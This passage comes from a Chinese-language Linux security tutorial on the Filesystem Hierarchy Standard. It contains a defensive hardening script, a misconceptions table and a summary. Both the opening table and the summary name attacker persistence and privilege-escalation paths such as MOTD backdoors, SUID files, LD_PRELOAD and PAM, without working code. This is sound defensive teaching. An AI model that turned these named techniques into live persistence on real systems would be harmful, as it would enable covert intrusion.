| 内核模块 | `/lib/modules/` | 极高 |
| MOTD 后门 | `/etc/update-motd.d/` | 中等 |
| Bash 初始化文件 | `/etc/profile.d/`、`~/.bashrc` | 中等 |

### 3.8 安全加固建议

基于 FHS 的系统加固清单：

```bash
#!/bin/bash
# FHS 安全加固脚本（需 root 权限）

echo "=== 1. 关键文件权限加固 ==="
chmod 644 /etc/passwd
chmod 640 /etc/shadow
chown root:shadow /etc/shadow
chmod 644 /etc/group
chmod 640 /etc/gshadow
chown root:shadow /etc/gshadow
chmod 440 /etc/sudoers

echo "=== 2. 临时目录 sticky bit ==="
chmod 1777 /tmp
chmod 1777 /var/tmp

echo "=== 3. 查找并修复异常 SUID/SGID ==="
find / -perm /6000 -type f \( \
  -not -path "/usr/bin/*" -and \
  -not -path "/usr/sbin/*" -and \
  -not -path "/usr/lib/*" -and \
  -not -path "/usr/libexec/*" -and \
  -not -path "/snap/*" \
\) -ls 2>/dev/null

echo "=== 4. 查找 world-writable 文件 ==="
find / -xdev -type f -perm -0002 -ls 2>/dev/null

echo "=== 5. 查找没有属主的文件 ==="
find / -xdev \( -nouser -o -nogroup \) -ls 2>/dev/null

echo "=== 6. 检查 /etc 目录完整性 ==="
# RHEL 系
if command -v rpm &>/dev/null; then
  rpm -Va | grep "^..5" | head -20
fi
# Debian 系
if command -v debsums &>/dev/null; then
  debsums -c 2>/dev/null | head -20
fi

echo "=== 7. 检查 /dev/shm/ 异常文件 ==="
find /dev/shm -type f -ls 2>/dev/null
```

### 3.9 常见误区与纠正

| 误区 | 正确理解 |
|------|----------|
| `/usr` 是 "user" 的缩写，存放用户个人文件 | `/usr` 是 "Unix System Resources"，存放系统级只读数据 |
| `/tmp` 重启后一定会被清空 | 取决于发行版配置和 `tmpfiles.d` 设置，部分发行版保留 `/tmp` |
| `/etc` 的发音是 "etc" | 正确发音是 `/ɛtˈsiː/`（et-see），源自 "et cetera" |
| `/proc` 是一个真实目录 | `/proc` 是虚拟文件系统，不占用磁盘空间，完全由内核在内存中生成 |
| 符号链接有 `777` 权限所以不安全 | 符号链接的权限没有实际意义，权限检查使用目标文件的权限 |
| 硬链接和符号链接功能相同 | 硬链接共享 inode，不能跨文件系统；符号链接是独立文件，可以跨文件系统 |
| `/var` 的 "var" 表示 "各种" | "var" 表示 "variable"（可变），存放运行时变化的数据 |
| 只要 `chmod 777` 就能解决权限问题 | `777` 意味着所有用户可读、写、执行，是严重的安全漏洞 |
| `/bin` 和 `/usr/bin` 是两个独立目录 | 在已合并的系统中，`/bin` 是指向 `/usr/bin` 的符号链接 |

### 3.10 本节小结

FHS 不仅是一份目录规范，更是 Linux 安全工作的基础设施知识。从渗透测试的角度看，FHS 就是攻击者的地图和防御者的蓝图：

- **信息收集**：通过 `/etc/` 获取配置和用户信息，通过 `/proc/` 获取运行时状态
- **权限提升**：利用 SUID 文件、sudoers 配置、capabilities 等标准路径
- **持久化**：利用 cron、systemd、PAM、LD_PRELOAD 等标准机制
- **取证分析**：按 FHS 系统性检查每个关键目录，建立时间线
- **安全加固**：基于 FHS 权限模型进行系统加固

掌握 FHS 是 Linux 安全能力的基石。下一节将在此基础上深入用户与权限模型，这是 FHS 权限体系的上层建筑。
